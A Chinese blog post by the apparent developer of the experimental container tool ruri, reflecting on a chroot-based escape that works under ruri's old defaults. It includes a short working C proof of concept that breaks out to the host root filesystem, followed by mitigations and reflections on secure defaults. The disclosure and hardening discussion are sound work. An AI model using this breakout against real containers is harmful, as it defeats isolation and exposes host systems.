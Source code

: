 ```yaml
---
layout: post
title: 容器安全反思之，当我亲手逃逸出ruri
date: 2025-07-27 22:40:56
cover: /img/escape-inside-ruri.jpg
top_img: /img/escape-inside-ruri.jpg
tags:
- Linux
- C语言
- Container
---
```

# 前言及叠甲(雾)
开发了好久的ruri，这两天听了一场AOSCC，天塌了。
~~所以责任全在AOSCC（bushi）~~
本文所提到问题仅针对个人项目，不构成任何方面建议。本人强烈推荐使用稳定的容器实现而非和我一起开灵车。
本文仅供技术交流，请自行承担风险。
写文章时作者在旅馆喝多了，至于怎么写出来的，我也不知道。
ruri已有的功能是能防的，只是非默认行为。安全加固建议在文档中也写了，总之，别骂了QwQ知道错了呜呜呜。。。
为什么这篇文章不遵守安全漏洞披露规范？因为ruri是灵车，我们继续创就好了（x
虽然AOSCC演讲刚讲到这个问题。。。。
以及：
For production, I fully recommand you to use tools like [crun](https://github.com/containers/crun), [youki](https://github.com/youki-dev/youki), [containerd](https://containerd.io/), [docker](https://www.docker.com/), [podman](https://podman.io/), [LXC](https://linuxcontainers.org/), [bubblewrap](https://github.com/containers/bubblewrap), they are more secure and stable. This is a non-OCI tool and, you take your own risk using it when you really need. The whole project is experimental!
```
* Your warranty is void.
* I am not responsible for anything that may happen to your device by using this program.
* You do it at your own risk and take the responsibility upon yourself.
* This project is open source, you can make your own fork/rewrite but not to blame the author.
* This program has no Super Cow Powers.
```
# 简单的逃逸
基于AOSCC上姚念庆老师的分享（公开信息，仅做引用），经过和xtex佬的交流后，我也成功构建了一个POC：
（注：以下代码仅供学习交流，请勿用于非法用途）
```c
// 草，懒得搜头文件直接从项目里引了
// 反复鞭尸.jpg
#include "src/include/ruri.h"
int main(void)
{
	/*
	 * WTF? How it works?
	 */
    // Seems we need to chroot() to a subdir once,
    // don't ask me why, idk.
	int chstat = chroot("/tmp");
	// Non-zero value means we are not succeed.
	printf("chroot returned %d\n", chstat);
	for (int i = 0; i < 1000; i++) {
		chdir("..");
	}
    // chroot() again, now we are out to host rootfs.
	chstat = chroot("./");
	printf("chroot returned %d\n", chstat);
	// Wow, out of container!
	// We are now free like a bird!
	execv("/bin/ls", (char *[]){ "ls", NULL });
	return 0;
}
```
原理。。。我也不清楚，毕竟涉及内核态了，总之，很恐怖。
于是我成功把自己和不存在的用户一起创似了。
好了本文结束，作者可以找个垃圾桶把自己丢进去了。
# 坏消息与好消息：
## 坏消息：
ruri的默认行为是寄的。
## 好消息：
我们至少有四种方式可以在不更新ruri的基础上解决这个问题：
1. drop掉CAP_SYS_CHROOT，这样chroot()就会失败
2. 开启unshare，因为unshare会自动先尝试pivot_root()
3. 使用rootless模式，虽然我也不知道为什么能防
4. 开启seccomp，用`--deny-syscalls chroot`可以拒绝chroot()

至少咱应该不用以死谢罪吧。。。（心虚）
但是：
## 坏消息：
1. 以上这些，在写这篇文章之前，都不是默认行为
2. 用户并不懂这些，甚至我见过有用户直接一个`--privileged`选项干掉所有保护
3. 我依稀记得，当时是为了兼容性考虑才保留CAP_SYS_CHROOT，但我清楚的知道，我忘了到底是为什么

好了作者要找个垃圾桶把自己丢进去了。
# 反思一，我们如何构建默认行为
更多默认启用的安全选项意味着更大的限制。
举个例子，如果我们默认开启no_new_privs，那么用户将无法通过su命令切换回root用户。
举个鞭尸自己的例子，ruri的内置seccomp规则一直没有充分测试，而且之前确实被它创飞过。
更极端的例子就是，我们自然可以直接开seccomp的传统模式，但是，这样容器也就不可用了。就像AOSCC上有一段是这样讲的：什么都没有的话，一块石头最安全了，但他也仅仅是一块石头。
docker等项目的默认行为确实有很大的参考价值，但是，他们并不完全适用于ruri这样的项目，毕竟我们要支持内核功能完全受限的环境。
在实际开发中，这样的问题其实有更多。有些当时为了修复一个已经被忘了且没有记录的问题的补丁成了默认行为，有些时候，为了兼容性，我们不得不在尝试更安全的行为失败时，fallback倒一个并非安全的行为。
当ruri被扩展到rurima，又多了一个新的问题。国内docker镜像都非相对可信，可如果不支持镜像，国内用户会很难受。因此我也只能做折中，在用户使用非官方镜像时输出一个警告（并非折中）
我们有时候不得不承认，哪怕我们支持再多的特性，默认行为也只能是一个折中后的结果。
哪怕这并不应当是作者因为知识浅薄写出漏洞的借口。
# 反思二，用户有没有义务去了解背后原理
我个人认为，我看未必，实则不然，恰恰相反，~~天理难容~~
用户自然需要对自己的行为负责，但是，作为开发者的我，显然责任更大。
软件的本质是一种减轻用户心智负担和使用成本的抽象，我们自然是让用户越轻松越好。至少，就像AOSCC上一位佬说的那样，我们应当比用户更了解我们的程序。
尤其是，当默认行为有严重的副作用，作者却未对此说明，甚至像我一样，根本不知道时。
# 反思三，当我们真的来到生产环境
那寄了，咱只能以死谢罪了。。。
很庆幸，我还年轻，只是一个爱好者的身份，ruri也并不是被广泛使用的项目，至少这辈子应该不会见到这东西进生产环境，~~否则我要去连着自己一起骂一顿了~~
但我们真的，不得不去考虑，为我们的程序负责。
以及，在生产环境下，尽量不要用未经广泛验证的项目，会变得不幸
# 结语
我一直相信，一个项目的构建，要从非零值开始，它至少需要先有雏形，再去完善。
在开始开发ruri之前，我甚至没有接触过C语言，好吧，说实话我只写过一点shell。
这几年的开发，确实让我的技术有了些许进步，因此，对于拿自己的开源项目当试验场的行为，我必须表示：
sorry, not sorry
最起码只是实验性项目，我们的灵车还会继续发车。无需麻醉，一样情不自禁high起来～
好吧，不开玩笑地说，很感谢此次AOSCC上各位大佬的分享，也确实让我意识到自己的很多不足。
我仍将相信，我终会有能力构建出更完善的项目，哪怕会犯错。
但我将更加努力。
但我将更加警惕。
好了作者要找个垃圾桶把自己丢进去了，bye～